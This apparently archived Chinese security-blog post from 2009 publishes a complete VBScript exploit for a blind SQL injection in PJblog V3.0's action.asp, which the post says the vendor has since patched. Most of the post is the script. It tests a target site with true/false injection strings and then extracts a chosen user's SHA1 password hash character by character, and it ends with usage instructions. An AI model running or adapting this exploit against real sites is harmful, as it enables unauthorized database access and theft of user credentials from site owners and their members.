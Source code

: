 ```yaml
---
title: PJblog V3.0 0day Vbs版漏洞利用工具exploit
description: PJblogV3.00dayVbs版漏洞利用工具exploit，本来还算个0day，不过PJblog官方反应速度不错，已经补了action.asp第14行strcname=request("cname")setcheckcdb=conn.execute("select*fromblog_Contentwherelog_cname="""&strcname&"""")漏洞具体细节请看http://0kee.com/read.php?tid-908.html，PJblogV3.00dayVbs版漏洞利用工具exploit：......
date: 2009-04-25 10:42:42
category: 漏洞信息
tags: ['PJblog', 'exploit', '漏洞信息']
post_id: 842
alias: PJblog-V3.0-0day-Vbs-exploit
ViewNums: 3005
---
```


[PJblog V3.0 0day Vbs版漏洞利用工具exploit](/blog/pjblog-v30-0day-vbs-exploit)，本来还算个0day，不过PJblog官方反应速度不错，已经补了

action.asp
第14行

```
strcname=request("cname")
set checkcdb=conn.execute("select * from blog_Content where log_cname="""&strcname&"""")
```

漏洞具体细节请看<http://0kee.com/read.php?tid-908.html>，[PJblog V3.0 0day Vbs版漏洞利用工具exploit](/blog/pjblog-v30-0day-vbs-exploit)：

```
If WScript.Arguments.Count <> 2 Then
        WScript.Echo "Usage: Cscript.exe Exp.vbs 要检测的论坛网址 要检测的用户名"
        WScript.Echo "Example: Cscript.exe Exp.vbs http://www.pjhome.net puterjam"
        WScript.Quit
End If
```
```
attackUrl = WScript.Arguments(0)
attackUser = WScript.Arguments(1)
attackUrl = Replace(attackUrl,"","/")
If Right(attackUrl , 1) <> "/" Then
        attackUrl = attackUrl & "/"
End If
SHA1Charset = "0123456789ABCDEFJ"
strHoleUrl = attackUrl & "action.asp?action=checkAlias&cname=0kee"""
```
```
If IsSuccess(strHoleUrl & "or ""1""=""1") And Not IsSuccess(strHoleUrl & "and ""1""=""2") Then
        WScript.Echo "恭喜！存在漏洞"
Else
        WScript.Echo "没有检测到漏洞"
        WScript.Quit
End If
```
```
For n=1 To 40
        For i=1 To 17
                strInject = strHoleUrl & " Or 0<(Select Count(*) From blog_member Where mem_name='" & attackUser & "' And mem_password>='" & strResult & Mid(SHA1Charset, i, 1) & "') And ""1""=""1"
                If Not IsSuccess(strInject) Then
                        strResult = strResult & Mid(SHA1Charset, i-1, 1)
                        Exit For
                End If
                strPrint = chr(13) & "Password(SHA1): " & strResult & Mid(SHA1Charset, i, 1)
                WScript.StdOut.Write strPrint
        Next
Next
WScript.Echo Chr(13) & Chr (10) & "Done!"
```
```
Function PostData(PostUrl)
 Dim Http
 Set Http = CreateObject("msxml2.serverXMLHTTP")
 With Http
  .Open "GET",PostUrl,False
  .Send ()
  PostData = .ResponseBody
 End With
 Set Http = Nothing
 PostData =bytes2BSTR(PostData)
End Function
```
```
Function bytes2BSTR(vIn)
 Dim strReturn
 Dim I, ThisCharCode, NextCharCode
 strReturn = ""
 For I = 1 To LenB(vIn)
  ThisCharCode = AscB(MidB(vIn, I, 1))
  If ThisCharCode < &H80 Then
   strReturn = strReturn & Chr(ThisCharCode)
  Else
   NextCharCode = AscB(MidB(vIn, I + 1, 1))
   strReturn = strReturn & Chr(CLng(ThisCharCode) * &H100 + CInt(NextCharCode))
   I = I + 1
  End If
 Next
 bytes2BSTR = strReturn
End Function
```
```
Function IsSuccess(PostUrl)
```
```
strData = PostData(PostUrl)
'Wscript.Echo strData
if InStr(strData,"check_error") >0 then
        IsSuccess = True
Else
        IsSuccess = False
End If
'Wscript.Sleep 500 '让系统休息一下
End Function
```

用法：Cscript.exe Exp.vbs 要检测的论坛网址 要检测的用户名

来源：[WEB安全手册](http://www.pcsec.org/archives/Pjblog-v3-0day-exp-vbs.html)

